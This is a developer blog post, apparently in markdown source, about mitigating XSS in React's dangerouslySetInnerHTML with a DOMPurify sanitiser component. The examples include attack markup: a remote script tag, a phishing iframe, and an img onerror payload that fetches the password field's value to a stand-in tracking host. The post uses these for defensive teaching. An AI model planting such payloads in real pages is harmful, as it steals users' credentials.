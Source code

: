 ```yaml
---
title: Mitigate XSS exploits when using React's dangerouslySetInnerHTML
description: With the great power of dangerouslySetInnerHTML, comes great responsibility
posted: "2022-08-14"
updated: "2022-08-14"
image: /assets/images/posts/lautaro-andreani-xkBaqlcqeb4-unsplash.jpg
credit:
  [
    Lautaro Andreani,
    https://unsplash.com/@lautaroandreani?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


**TL: DR;** Blinding dumping content into `dangerouslySetInnerHTML` is exactly that - dangerous. Make sure you are sanitising any input you pass to dangerouslySetInnerHTML unless you have explicit control of the input.

The following component serves as a simple example of mitigating the risk of an XSS attack via dangerouslySetInnerHTML:

```jsx title="DangerousHtml.jsx"
//https://github.com/cure53/DOMPurify
import React from "react";
import DOMPurify from "dompurify";

const sanitize = (dirty) => DOMPurify.sanitize(dirty);

const DangerousHtml = ({ innerHTML, tag }) => {
  const clean = sanitize(innerHTML);

  if (typeof tag === "undefined") {
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }
  return <tag dangerouslySetInnerHTML={{ __html: clean }} />;
};

export default DangerousHtml;
```

By using our bespoke `DangerousHtml` component, we can dramatically reduce the risk of an XSS exploit as we're sanitising our input before it gets to the actual `dangerouslySetInnerHTML` prop

`DOMPurify` is highly configurable too, so it might be the case that you want to have multiple components like our example to handle specific use cases or allow some of the below examples explicitly.

Below are some brief examples of how the exploits could take place:

## Exploiting iFrame and Script Tags

XSS is possible as React will not strip out the script tag which points to a malicious payload.

We really shouldn't be passing iFrames in this way either. Rather, we should pass the URL and any other "safe" attributes as a props and render it ourselves in an iFrame tag to retain control of it's rendering ability's and source, or have a dedicated iFrame component.

For example, consider rhe following malicious markup that we've received from an API request. If we blindly set it via _dangerouslySetInnerHTML_, we'll give the user this output:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hi
    <script src="https://example.com/malicious-tracking"></script>
    Fiona, here is the link to enter your bank details:
    <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
  </p>
</div>
```

However, using our DangerousHTML component instead, means that we have mitigated most of the risk the user may have faced:

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>Hi Fiona, here is the link to enter your bank details:</p>
</div>
```

Fiona may think that the website is broken or missing content for some reason - but this is still better than being phished for their bank details!

## Attribute manipulation/poisoning

Some DOM elements have special attributes that we can abuse that we should protect ourselves against.

In this example, we can run some JS on an `<image>` tag's `onerror`.

For example, given the following:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img
      src="none.png"
      onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
    />
    Sharon
  </p>
</div>
```

In this instance, our poisoned markup is stealing data from the DOM when the image request eventually fails and the user will never even know.

We can mitigate this again with our DangerousHtml component

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img src="none.png" />
    Sharon
  </p>
</div>
```

Given the argument that we may genuinely want to execute some JS to show a fallback image, we should again not be trusting raw, unsanitized HTML to do this for us and would be better served either having a `fallbackImageURL` or `onError` prop that we can explicitly add to our image tag like so:

```jsx
// Usual imports
const MyImageComponent = ({ fallbackUrl, url }) => {
  // Usual component setup

  const displayFallbackImage = (evt) => {
    // If there is no fallback, do nothing
    if (!fallbackUrl) return;

    // set the url to the fallbackUrl
    evt.target.src = fallbackUrl;
  };

  return (
    <img
      src={url}
      onerror={displayFallbackImage}
      // ... any other props
    />
  );
};
```
